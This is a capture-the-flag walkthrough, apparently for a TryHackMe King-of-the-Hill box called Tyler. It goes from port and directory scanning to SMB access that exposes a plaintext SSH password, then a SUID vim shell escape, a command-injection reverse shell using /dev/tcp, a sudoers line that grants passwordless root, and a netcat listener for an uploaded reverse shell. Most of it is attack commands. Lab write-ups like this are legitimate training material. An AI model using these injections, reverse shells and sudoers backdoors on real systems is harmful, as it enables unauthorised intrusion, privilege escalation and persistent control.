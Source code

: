 # KOTH TYLER

----------------
## IP: `10.10.243.130`<br />

----------------
### Open Ports -<br/>

```
22
80
139
445
3306
5000
8080
```

![image](images/nmap.png)


##### Subdirectories -

```
/upload
/betatest
```

![image](images/gobuster.png)

##### Initial access -<br/> 

![image](images/smb.png)

```
smbclient //tyler.thm/public
```

> we can get narrator's ssh password from here<br/>

username: narrator<br/>
password: X8JEETQmf3hkS65f<br/>

##### Privilege escalation of user `narrator`

`find / -perm -4000 2>/dev/null`

![image](images/suid.png)

```
vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
```

### subdirectory - `betatest`

`tdurden;bash -i >& /dev/tcp/<ip>/<port> 0>&1`

![image](images/betatest.png)

> Same Priv-Esc as of narrator using vim <br/>

##### To get full root access -

```
echo "tdurden ALL=(ALL:ALL) NOPASSWD:ALL" >> /etc/sudoers
```

Then just do, `sudo bash` voilà you're root<br/>

##### Upload a `python` rev-shell on PORT `5000`

`http://tyler.thm:5000`<br/>

```
nc -lnvp <port>
```

![image](images/upload-port.png)
